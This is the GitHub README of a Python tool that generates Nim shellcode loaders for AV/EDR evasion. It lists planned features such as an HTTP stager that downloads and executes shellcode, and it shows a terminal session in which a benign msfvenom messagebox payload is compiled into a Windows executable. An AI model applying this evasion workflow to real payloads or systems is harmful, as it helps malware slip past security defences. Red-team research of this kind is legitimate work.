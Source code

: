 # yetAnotherNimCrypt

This project aims to help me develop my skills in malware development and AV/EDR evasion.

## Description

yetAnotherNimCrypt is a tool that automates the process of generating shellcode loaders/injectors using Nim templates.

This project aims to provide a simple and customizable way to generate shellcode loaders/injectors in Python. By utilizing Nim templates, users can easily define their own loaders and customize them to suit their specific needs.

## Features

- [x] Use custom shellcode as input
- [x] Choose output file path
- [ ] Multiple encryption techniques
- [ ] Multiple execution techniques
- [ ] Sleep time customizable
- [ ] Optionnal remote process
- [ ] Optionnal HTTP stager (encrypt the shellcode and compile the choosen template by adding a fetcher template able to download an execute the shellcode. Might use updog to serve the shellcode)

## Usage example

```bash
xl00t@linux:/home/xl00t/Desktop/Redteam $ msfvenom -p windows/x64/messagebox TEXT="Payload successfully injected" TITLE="Shellcode Test" --platform windows -a x64 -f raw -o msf.raw
No encoder specified, outputting raw payload
Payload size: 339 bytes
Saved as: msf.raw
xl00t@linux:/home/xl00t/Desktop/Redteam $ tools/yetAnotherNimCrypt/yetAnotherNimCrypt.py msf.raw --output lol.exe  
[+] Formated shellcode
[+] Shellcode template updated using technique: EnumCalendarInfo
[+] Shellcode loader compiled
xl00t@linux:/home/xl00t/Desktop/Redteam $ ll lol.exe 
-rwxr-xr-x 1 xl00t xl00t 61K Nov 23 16:41 lol.exe
xl00t@linux:/home/xl00t/Desktop/Redteam $ file lol.exe                                               
lol.exe: PE32+ executable (GUI) x86-64 (stripped to external PDB), for MS Windows, 11 sections
xl00t@linux:/home/xl00t/Desktop/Redteam $
```

![Shellcode executionexample](assets/imgs/shellcode_execution_example.png)

## Contributing
Contributions are welcome! If you find a bug or have a suggestion for improvement, please open an issue or submit a pull request.

## License
This project is licensed under the MIT License. See the [LICENSE](https://github.com/xl00t/yetAnotherNimCrypt/blob/main/LICENSE) file for more details.